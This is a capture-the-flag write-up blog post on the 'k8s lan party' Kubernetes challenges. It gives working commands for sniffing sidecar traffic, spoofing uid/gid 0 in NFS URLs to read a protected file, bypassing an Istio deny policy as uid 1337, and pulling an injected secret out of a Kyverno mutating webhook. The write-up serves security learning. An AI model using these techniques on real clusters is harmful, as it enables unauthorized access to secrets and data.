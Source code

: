 ```yaml
---
title: k8s lan party
author: ch3n9w
date: 2024-03-15 07:34:46
categories:
  - CTF
cover:
  image: 2024-03-26-21-02-36.png
---
```


Long time no CTF~~

## RECON

Just check the environment related to K8s using `env` and reconnoiter internal service using `dnscan`

![recon](recon.png)

This blog is good written [link](https://thegreycorner.com/2023/12/13/kubernetes-internal-service-discovery.html)

## Finding Neighbours

According to the description, the sidecar container of current pod is sending some information (possibly flag) to remote server. So, the first step is digging the remote server like what we do in the first challenge, which leads me to `reporting-service.k8s-lan-party.svc.cluster.local`.

As we all know, all containers within same pod share one network namespace, which means we can sniff the traffic from our current container.

```sh
tcpdump -i any host reporting-service.k8s-lan-party.svc.cluster.local and tcp -w traffic.pcap
```

and the flag was in the `traffic.pcap`

![neighbours](neighbours.png)

## DATA LEAKAGE

> The targeted big corp utilizes outdated, yet cloud-supported technology for data storage in production. But oh my, this technology was introduced in an era when access control was only network-based.

At first glance, I thought the data storage is `nfs`, and found the existence of `/efs/flag.txt`. However, there is no enough permission to read it, while I failed to mount the remote storage to local host, so I stopped and didn't have any progress until the end of the game.


By executing `mount`, here we got:

```
fs-0779524599b7d5e7e.efs.us-west-1.amazonaws.com:/ on /efs type nfs4 (ro,relatime,vers=4.1,rsize=1048576,wsize=1048576,namlen=255,hard,noresvport,proto=tcp,timeo=600,retrans=2,sec=sys,clientaddr=192.168.30.72,local_lock=none,addr=192.168.124.98)
```

Since the remote storage use `nfs4`, we should specify the version when listing it.

```sh
nfs-ls nfs://fs-0779524599b7d5e7e.efs.us-west-1.amazonaws.com/?version=4
```

try to cat the remote `flag.txt`, but there is no enough permission.

```sh
nfs-cat nfs://fs-0779524599b7d5e7e.efs.us-west-1.amazonaws.com//flag.txt?version=4
```

![](2024-03-26-20-45-47.png)

However, according to the libnfs document, we could spoof uid and gid by adding parameters to the nfs url and get elevated privileges.

![](2024-03-26-20-52-11.png)

```sh
nfs-cat "nfs://fs-0779524599b7d5e7e.efs.us-west-1.amazonaws.com//flag.txt?version=4&uid=0&gid=0"
```

![](2024-03-26-20-51-30.png)

## The Beauty and The Ist

> Apparently, new service mesh technologies hold unique appeal for ultra-elite users (root users). Don't abuse this power; use it responsibly and with caution.

The given policy is 

```yml
apiVersion: security.istio.io/v1beta1
kind: AuthorizationPolicy
metadata:
  name: istio-get-flag
  namespace: k8s-lan-party
spec:
  action: DENY
  selector:
    matchLabels:
      app: "{flag-pod-name}"
  rules:
  - from:
    - source:
        namespaces: ["k8s-lan-party"]
    to:
    - operation:
        methods: ["POST", "GET"]
```

The policy in this challenge block `GET` and `POST` requests from namespace `k8s-lan-party`
Find Istio service

```sh
dnscan -subnet 10.100.0.1/16
```

![](2024-03-26-21-10-53.png)

The request to this address will be denied. However, there seems to be user that can bypass the Istio's IPTables rules from hist#2.

`cat /etc/passwd | grep 1337`

And we got user `istio`, According to [ncc report](https://istio.io/v1.11/blog/2021/ncc-security-assessment/NCC_Group_Google_GOIST2005_Report_2020-08-06_v1.1.pdf) and [Istio Iptables](https://github.com/istio/istio/wiki/Understanding-IPTables-snapshot#use-pid-to-get-iptables), **the 1337 uid is used to distinguish between traffic originating from proxy vs the applications**, which means we can bypass the policy restriction by switching to user `istio` and send requests, which would be recognized as traffic from istio sidercar proxy.

![](2024-03-26-21-18-32.png)

## Who will guard the guardians?

> Where pods are being mutated by a foreign regime, one could abuse its bureaucracy and leak sensitive information from the [administrative](https://kubernetes.io/docs/reference/access-authn-authz/extensible-admission-controllers/#request) services.

The given policy:

```yml
apiVersion: kyverno.io/v1
kind: Policy
metadata:
  name: apply-flag-to-env
  namespace: sensitive-ns
spec:
  rules:
    - name: inject-env-vars
      match:
        resources:
          kinds:
            - Pod
      mutate:
        patchStrategicMerge:
          spec:
            containers:
              - name: "*"
                env:
                  - name: FLAG
                    value: "{flag}"
```

Kyverno is designed for policy management. The policy will inject flag into Pod resource created under `sensitive-ns`.

According to GPT, `AdmissionReview` is a kind of API resource used in admission control process. K8s supports two types of admission control webhooks to handle `AdmissionReview`: `ValidatingAdmissionWebhook` and `MutatingAdmissionWebhook`, the latter is called before validating object correctness, it can modify objects in the request, while the former is called after all `MutatingAdmissionWebhook` to check the state of the object for validity but does not modify it.

Obviously, the policy facilitates MutatingAdmissionWebhook to modify object.

Reconnoiter services first:

```
10.100.86.210 -> kyverno-cleanup-controller.kyverno.svc.cluster.local.
10.100.217.223 -> kyverno-cleanup-controller-metrics.kyverno.svc.cluster.local.
10.100.232.19 -> kyverno-svc.kyverno.svc.cluster.local.
10.100.126.98 -> kyverno-svc-metrics.kyverno.svc.cluster.local.
10.100.158.213 -> kyverno-reports-controller-metrics.kyverno.svc.cluster.local.
10.100.171.174 -> kyverno-background-controller-metrics.kyverno.svc.cluster.local.
```

What if we can utilize the MutatingAdmissionWebhook to steal the secret since we can access to `https://kyverno-svc.kyverno.svc.cluster.local/mutate`? The AdmissionReview requests to this api will be responsed by object modified by the kyverno, which makes a lot sense.

use the following resource to generate `AdmissionReview`

```yml
apiVersion: v1
kind: Pod
metadata:
  name: curl-flag
  namespace: sensitive-ns
spec:
  containers:
  - name: curl-container
    image: curlimages/curl
```

```sh
./kube-review create pod.yaml > pod.json
curl -k -X POST \
https://kyverno-svc.kyverno.svc.cluster.local/mutate \
  -H 'content-type: application/json' \
  --data-binary "@pod.json"
```

We got:

```json
{"kind":"AdmissionReview","apiVersion":"admission.k8s.io/v1","request":{"uid":"dd916513-9b96-4220-ae2b-b21470612d69","kind":{"group":"","version":"v1","kind":"Pod"},"resource":{"group":"","version":"v1","resource":"pods"},"requestKind":{"group":"","version":"v1","kind":"Pod"},"requestResource":{"group":"","version":"v1","resource":"pods"},"name":"curl-flag","namespace":"sensitive-ns","operation":"CREATE","userInfo":{"username":"kube-review","uid":"ee8332cb-afa6-412e-b60a-641f23d28980"},"object":{"kind":"Pod","apiVersion":"v1","metadata":{"name":"curl-flag","namespace":"sensitive-ns","creationTimestamp":null},"spec":{"containers":[{"name":"curl-container","image":"curlimages/curl","resources":{}}]},"status":{}},"oldObject":null,"dryRun":true,"options":{"kind":"CreateOptions","apiVersion":"meta.k8s.io/v1"}},"response":{"uid":"dd916513-9b96-4220-ae2b-b21470612d69","allowed":true,"patch":"W3sib3AiOiJhZGQiLCJwYXRoIjoiL3NwZWMvY29udGFpbmVycy8wL2VudiIsInZhbHVlIjpbeyJuYW1lIjoiRkxBRyIsInZhbHVlIjoid2l6X2s4c19sYW5fcGFydHl7eW91LWFyZS1rOHMtbmV0LW1hc3Rlci13aXRoLWdyZWF0LXBvd2VyLXRvLW11dGF0ZS15b3VyLXdheS10by12aWN0b3J5fSJ9XX0sIHsicGF0aCI6Ii9tZXRhZGF0YS9hbm5vdGF0aW9ucyIsIm9wIjoiYWRkIiwidmFsdWUiOnsicG9saWNpZXMua3l2ZXJuby5pby9sYXN0LWFwcGxpZWQtcGF0Y2hlcyI6ImluamVjdC1lbnYtdmFycy5hcHBseS1mbGFnLXRvLWVudi5reXZlcm5vLmlvOiBhZGRlZCAvc3BlYy9jb250YWluZXJzLzAvZW52XG4ifX1d","patchType":"JSONPatch"}}
```

![](2024-03-26-22-26-59.png)
